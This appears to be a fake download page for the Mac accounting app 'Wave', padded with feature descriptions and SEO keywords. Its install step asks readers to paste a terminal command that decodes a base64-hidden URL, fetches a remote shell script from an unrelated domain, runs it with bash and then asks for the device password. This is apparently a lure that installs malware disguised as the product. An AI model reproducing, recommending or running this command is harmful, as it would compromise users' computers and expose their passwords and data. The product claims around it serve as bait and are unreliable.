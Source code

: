 # Wave for Mac Download - Complete Financial Management Solution

![Wave Screenshot](https://i.ytimg.com/vi/9jVpV-8z5CY/maxresdefault.jpg)

---

### 🔽 Download Wave for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Wave for Mac?

Wave is a powerful yet free financial management platform specifically designed for small businesses, entrepreneurs, and freelancers using macOS. This all-in-one solution seamlessly combines robust accounting tools, professional invoicing, accurate receipt scanning, and secure banking features within a user-friendly interface.

The software offers these essential features:
- Professional invoicing tools with customizable templates
- Complete accounting and bookkeeping functionality
- Advanced receipt scanning with OCR technology
- Payroll processing capabilities (premium feature)
- Comprehensive financial reporting
- Secure business banking integration
- Multi-currency support for international transactions
- Tax preparation tools

Wave's clean, intuitive interface and straightforward approach make complex financial management simple for non-accountants, while still providing all the professional-grade features needed for proper bookkeeping, tax compliance, and business financial health. The platform is particularly valuable for small businesses looking for an affordable alternative to expensive accounting software.

![Wave Dashboard](https://ntblog.net/wp-content/uploads/2022/12/waves-13-macbook.jpg)

---

## Key Features & Benefits

- 💰 Free invoicing and accounting
- 📸 Receipt scanning tool
- 📊 Financial reporting
- 🏦 Banking integration
- 📱 Mobile accessibility
- 🔒 Secure data storage

---

## 🔍 Keywords

Wave for Mac, Wave Mac Download, Wave for Mac Download, Wave Mac, Wave Download Mac, Wave Download for Mac, Wave full version, Mac Download Wave, Download Mac Wave, Download Wave Mac, Download Wave for Mac
